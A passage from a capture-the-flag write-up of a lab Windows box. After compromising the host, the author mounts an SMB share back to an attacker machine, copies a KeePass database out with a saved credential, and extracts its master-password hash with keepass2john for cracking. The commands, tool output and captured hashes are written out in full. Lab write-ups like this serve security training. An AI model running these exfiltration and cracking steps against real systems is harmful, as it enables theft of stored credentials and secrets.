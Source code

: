 A `.kdbx` file is a [KeePass](https://keepass.info/) database file. KeePass is essentially an offline password manager, so this was a treasure trove of secrets.
I quickly mounted an SMB share between jeeves and my Kali machine to download the file via SMB:

```
PS C:\Users\kohsuke> $pass = ConvertTo-SecureString "h4ckit" -AsPlaintext -Force
PS C:\Users\kohsuke> $creds = System.Management.Automation.PSCredential("r0kit",$pass)
PS C:\Users\kohsuke> New-PSDrive -Name r -Root "\\10.10.14.24\r0kit" -PSProvider FileSystem -Credential $creds

Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
----           ---------     --------- --------      ----                                               ---------------
r                                      FileSystem    \\10.10.14.24\r0kit


PS C:\Users\kohsuke> cp C:\Users\kohsuke\Documents\CEH.kdbx r:\
```

```
$ sudo python3 ~/tools/impacket/examples/smbserver.py r0kit shared/ -username r0kit -password h4ckit -smb2support
[sudo] password for kali:
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49694)
[*] AUTHENTICATE_MESSAGE (\r0kit,JEEVES)
[*] User JEEVES\r0kit authenticated successfully
[*] r0kit:::4141414141414141:726e544bf390926a924ff611c23590dd:010100000000000080b8cec20e86d6013f2eb37fb782615e0000000001001000640047005600780047006a004e00700003001000640047005600780047006a004e0070000200100055004d005900780055006b0057004f000400100055004d005900780055006b0057004f000700080080b8cec20e86d60106000400020000000800300030000000000000000000000000300000fe14972fc6aa5afbb06dc2eef0647acfdb2500ac282c44224aba8e19c4bef92f0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003400000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:r0kit)
[*] Disconnecting Share(1:IPC$)
[*] Handle: The NETBIOS connection with the remote host timed out.
[*] Closing down connection (10.10.10.63,49694)
[*] Remaining connections []
```

Since `.kdbx` files require a master password, I needed a way to crack it. After some research, I figured out that I was able to extract the KeePass master database password hash so that I could then pass it to `hashcat` for cracking:

```
$ keepass2john CEH.kdbx > CEH.john
$ cat CEH.john
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```
